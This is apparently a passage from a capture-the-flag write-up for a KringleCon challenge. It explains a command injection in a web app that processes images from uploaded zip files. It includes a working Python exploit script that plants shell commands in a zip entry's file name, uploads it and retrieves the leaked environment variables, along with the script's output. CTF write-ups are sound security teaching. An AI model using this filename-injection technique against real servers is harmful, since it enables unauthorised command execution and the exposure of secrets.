 The system command which is run in a separate thread takes a filename and uses it directly in the command without proper escaping. If we can control the filename this would be a command line injection vulnerability. However the filenames used in the process_file function are not the ones provided during the upload but the temporary names generated by the web framework. However, the app supports processing uploaded zip files and if the zip file contains images those will be processed using the process_file function using a filename that we control. The call chain will thus look something like this:

```process_files -> process_file -> handle_zip -> process_file -> handle_image -> system -> RCE```

There are a few limitations to what names we can use since the "extract" function needs to succeed but taking this into account we can construct the following attack script:

```python
#!/usr/bin/env python3

import ast
import time
import requests
import io
import zipfile

BASE_URL = 'https://tag-generator.kringlecastle.com'

with io.BytesIO() as fout:
    with zipfile.ZipFile(fout, 'w') as zip_out:
        zip_out.writestr("';printenv>zetatwo.jpg;cp 'zetatwo.jpg", 'fake content')
    fout.seek(0)

    r = requests.post(BASE_URL + '/upload', files={'my_file[]': ('attack.zip', fout)})
    filename = ast.literal_eval(r.text)[0]
    print(filename)

    time.sleep(2)

    r = requests.get(BASE_URL + '/image', params={'id': filename})
    print(r.text)

```

Running this will create a zip file containing a file with a command injection in its name, upload it to the server, wait for the separate thread to finish and then retrieve the outputs.

```bash
> python3 solve-badge.py 
9ebd31a5-60a1-415e-a7b2-33d94d8c346c.jpg
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
...
BUNDLE_SILENCE_ROOT_WARNING=1
```

This gives us the variable we are looking for.

